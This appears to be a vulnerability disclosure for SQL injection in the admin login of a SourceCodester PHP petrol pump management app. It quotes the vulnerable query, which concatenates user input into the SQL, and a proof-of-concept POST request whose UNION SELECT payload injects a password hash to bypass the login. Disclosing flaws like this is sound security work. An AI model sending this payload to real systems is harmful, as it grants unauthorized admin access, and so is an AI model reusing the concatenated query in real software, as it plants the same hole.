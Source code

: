 # SOURCECODESTER / Petrol pump management software - login_crud.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/app/login_crud.php

## Code
```php
 $stmt1 = $conn->prepare("SELECT * FROM `login` where email='".$_POST['email']."' AND password='".$password."'");
//         print_r($stmt1);
//
            $stmt1->execute();

            $record=$stmt1->fetchAll();
//            print_r($record);exit;

            $res=count($record);
            if ($res>0) {
                foreach ($record as $res) {
                    // print_r($res);exit;
                    if ($password==$res['password'])
                    {
                    $_SESSION['id']=$res['id'];
                }
                header("location:../dashboard.php" ); 
            }
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/app/login_crud.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 189

email='+UNION%20SELECT%201%20as%20id%2cNULL%2c'a9eb3f6e9eee693434663613e83287ac8b0b7f5f67f4559e40258074a4b0dce6'%20as%20password%2cNULL%2cNULL%2cNULL%2cNULL%20%23&password=NoChizPlz&submit=
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/98f26604-9bb9-4f76-b9ea-1505690aa13c)
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/ed586fa1-1470-4c10-8991-62fb808661e9)

